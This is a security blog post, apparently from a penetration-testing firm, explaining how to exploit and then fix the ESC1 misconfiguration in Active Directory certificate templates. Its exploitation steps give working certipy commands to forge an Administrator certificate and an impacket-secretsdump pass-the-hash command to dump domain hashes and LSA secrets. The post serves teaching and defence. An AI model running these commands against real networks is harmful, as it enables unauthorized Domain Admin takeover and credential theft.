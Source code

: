 ```yaml
---
title: "Exploiting Misconfigured Active Directory Certificate Template – ESC1"
slug: "adcs-esc1-exploit"
author: "PentStark Labs"
date: "2025-10-03"
readTime: "8 min read"
category: "Active Directory"
tags: ["ADCS", "Active Directory", "ESC1", "PKI", "Certipy", "Rubeus"]
image: "/blog01/blog01-0.png" 
excerpt: "How a single 'Enrollee supplies subject' option on an AD CS template lets attackers mint logon-capable certificates for any user, including Domain Admins."
featured: true
---
```


# Exploiting and Fixing Vulnerable Certificate Templates in Active Directory

Certificates are crucial in establishing trust and securing communication within the Active Directory environment. They are used for authentication, encryption, and digital signatures. Certificate Templates are predefined configurations that define the properties and settings for the certificates issued by the Active Directory Certificate Authority (CA). These templates help standardize certificate issuance and ensure certificates adhere to specific security requirements. An attacker can use these templates to escalate privileges from domain users to domain admins if they are not configured correctly. In this blog, we will discuss what a vulnerable template is and how to exploit and fix it.

## Active Directory Certificate Services (AD CS) Templates

Active Directory Certificate Services (AD CS) templates are predefined certificate request configurations that allow administrators to define the characteristics of certificates that will be issued by the CA (Certificate Authority). Templates serve as blueprints for different types of certificates and their properties, making it easier to manage and issue certificates with consistent settings across an organization’s PKI  Key Infrastructure).

Administrators can streamline requesting, issuing, and managing certificates within an organization using templates. Templates ensure consistency, simplify the certificate issuance process, and help maintain security standards by enforcing specific configurations for different certifications.

## Active Directory Certificate Services (AD CS) Vulnerable Templates

Templates, by default, are not vulnerable but made vulnerable by human-made misconfigurations. When writing this blog, these misconfigurations are divided into 11 parts (ESC1-ESC11). In this blog, we will exploit ESC1 misconfiguration in a template.

By exploiting this type of vulnerable Template, a domain user can escalate his privileges to that of a domain administrator in a Windows Active Directory Environment.

## Exploiting ESC1

For exploiting ESC1, we need the Template to meet certain criteria. The Template must have:

- Enrollment Rights set for the group our user belongs to so that we can request a new certificate from the Certificate Authority (CA).
- Extended Key Usage: Client Authentication means the generated certificate based on this Template can authenticate to the domain computers.
- Enrollee Supplies Subject set to True, which means we can supply SAN (Subject Alternate Name).
- No Manager Approval is required, which means the request is auto-approved.

### Step to Exploit Misconfigured Certificate Template – ESC1

1. Certipy is a tool used for finding and exploiting certificates in Active Directory.

![ESC1 – AD CS Vulnerable Template](/blog01/blog01-1.png)

2. Run certipy against the domain controller to find any vulnerable templates.

```
certipy find -vulnerable -dc-ip 192.168.0.144 -u Guts@ACU.local -p 'P@ssw0rd!'
```
![ESC1 – AD CS Vulnerable Template](/blog01/blog01-2.png)


    - `-u`: Domain User  
    - `-p`: Domain User Password  
    - `-dc-ip`: Domain Controller IP  

    Domain: ACU.local


3. Cat the created text file by certipy to see the vulnerable Template.

![ESC1 – AD CS Vulnerable Template](/blog01/blog01-3.png)

![ESC1 – AD CS Vulnerable Template](/blog01/blog01-4.png)


    From the output, it is clear that enrollment rights are set for Domain Users, Enrollee Supplies Subject is set to True, and Extended Key Usage has Client Authentication.

4. Request a certificate and supply the Administrator’s SAN (Subject Alternate Name).

    ```
    certipy req -dc-ip 192.168.0.144 -u Guts@ACU.local -p 'P@ssw0rd!' -ca ACU-ANIKATE-DC-CA -target ANIKATE-DC.ACU.local -template ESC1 -upn Administrator@ACU.local -dns Anikate-DC.ACU.local
    ```
![ESC1 – AD CS Vulnerable Template](/blog01/blog01-5.png)

    - `ca`: Certificate Authority (ACU-ANIKATE-DC-CA in this case)  
    - `target`: CA Hostname (ANIKATE-DC.ACU.local in this case)  
    - `template`: Name of the vulnerable Template (ESC1 in this case)  
    - `upn`: Target Username (Administrator in this case)  
    - `dns`: DNS Server (Anikate-DC.ACU.local in this case)

5. Authenticate against the domain controller using the certificate.

```
certipy auth -pfx administrator_anikate-dc.pfx -dc-ip 192.168.0.144
```
![ESC1 – AD CS Vulnerable Template](/blog01/blog01-6.png)

    - `auth`: Which identity to authenticate as (We are establishing as Administrator, so use 0, i.e., UPN: Administrator@ACU.local)  
    - `-pfx`: Saved Certificate (administrator_anikate-dc.pfx in this case)  

    Now, we attempt to show the domain controller using the certificate and get the TGT (Ticket Granting Ticket); the domain controller will attach the NTLM hash of the user with TGT.

6. Dump hashes and LSA secrets using secretsdump.

```
impacket-secretsdump -hashes 'aad3b435b51404eeaad3b435b51404ee:9a0c89751f9ac637242da5ac889fa3aa' 'ACU.local/Administrator@192.168.0.144.'
```
![ESC1 – AD CS Vulnerable Template](/blog01/blog01-7.png)


## Fixing the Misconfigured Certificate Template – ESC1

1. Open the Server Manager on your Certificate Authority.  
2. Click on **Tools** and then **Certification Authority**.  

![ESC1 – AD CS Vulnerable Template](/blog01/blog01-8.png)

3. Right-click on **Certificate Templates** and click on **Manage**.  

![ESC1 – AD CS Vulnerable Template](/blog01/blog01-9.png)

4. Right-click on the vulnerable Template and click on **Properties**.  

![ESC1 – AD CS Vulnerable Template](/blog01/blog01-10.png)

5. Go to **Issuance Requirements** and check the **CA certificate manager approval** box.  

![ESC1 – AD CS Vulnerable Template](/blog01/blog01-11.png)

6. Go to **Subject Name**, select **Build from this Active Directory information** instead of **Supply in the request**, and click **Apply**.  

![ESC1 – AD CS Vulnerable Template](/blog01/blog01-12.png)

7. Go to **Security**, select the **Domain Users Group**, uncheck the **Enroll** box, and then click **Apply** and **OK**.  

![ESC1 – AD CS Vulnerable Template](/blog01/blog01-13.png)

8. Now rerun certipy.  

![ESC1 – AD CS Vulnerable Template](/blog01/blog01-14.png)

9. Cat the created text file by certipy to see if the vulnerable Template exists.  

![ESC1 – AD CS Vulnerable Template](/blog01/blog01-15.png)

Certipy should not find any vulnerable templates.

## TL;DR

Attackers can escalate their privileges from domain users to domain admins by exploiting the misconfiguration of certificate templates that are not vulnerable by default but due to human-made misconfigurations. For exploitation, we need the Template to meet certain requirements: ability to supply SAN (Subject Alternate Name), manager approval set to False, enrollment rights for the user group, and Template allows client authentication.
